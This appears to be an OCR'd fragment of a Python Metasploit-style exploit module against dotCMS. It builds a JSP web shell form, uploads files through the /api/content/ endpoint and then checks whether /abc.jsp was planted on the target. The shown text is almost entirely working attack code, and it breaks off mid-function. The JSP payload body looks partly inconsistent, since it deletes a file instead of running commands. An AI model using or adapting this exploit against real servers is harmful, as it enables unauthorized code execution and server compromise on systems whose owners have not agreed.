             'TARGETURI': {'type': 'string', 'description': 'The base path', 'required': True, 'default': '/'},
            'METHOD': {'type': 'string', 'description': 'Vulunarable HTTP method', 'required': True, 'default': 'POST'}
        }
    }

    def find_base_url(args):
        base_url = 'https://{}:{}'.format(args['rhost'], args['RPORT'])
        return base_url

    def make_shell():
        shell = """<FORM>
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
        <%
            File jsp=new File(getServletContext().getRealPath(File.separator) + File.separator + "#{test_file}");
            jsp.delete();
    %>
        """
        return shell

    def exploit(base_url,url,files):
        #https://{ip}:{port}/dotAdmin
        try:
            r = requests.get(url,verify=False,timeout=3)
        except Exception as e:
            module.log(str(e), level='error')
            return False
        module.log('Target is Valid', level='good')

        new_url = base_url + "/api/content/"
        try:
            response = requests.post(new_url , files=files, verify=False)
        except Exception as e:
            module.log('/api/content/ error', level='error')
            module.log(str(e), level='error')
            return False
        #print(response.status_code)

        url = base_url + "/abc.jsp"
        try:
            r = requests.get(url,verify = False)
            if r and r.status_code == 200:
                module.log('Successfully upload abc.jsp', level='good')
        except Exception as e:
            module.log('Failed to upload abc.jsp', level='error')
            return False

        return True

    def run(args):
        try:
            # dependency check
            if dependencies_missing:
                module.log('Module dependency (requests) is missing, cannot continue', level='error')
                return
